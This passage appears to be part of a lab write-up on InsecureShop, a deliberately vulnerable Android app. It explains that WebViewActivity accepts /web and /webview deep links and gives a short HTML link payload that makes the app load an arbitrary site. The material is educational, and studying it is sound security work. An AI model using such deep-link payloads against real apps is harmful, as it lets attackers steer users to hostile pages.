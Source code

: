 ![WebViewActivity.class](<../../attachments/Screenshot from 2022-05-30 10-26-52.png>)

If we look into code then we have two paths /web and /webview where input string will execute according to condition is being satisfy.&#x20;

so our exploit will be&#x20;

`<html>`

`<body><a href="insecureshop://com.insecureshop/web?url=http://bing.com">Start Attack</a>`

`</body>`

`<html>`

![Loading Arbitary sites.](<../../attachments/ezgif.com-gif-maker (1).gif>)
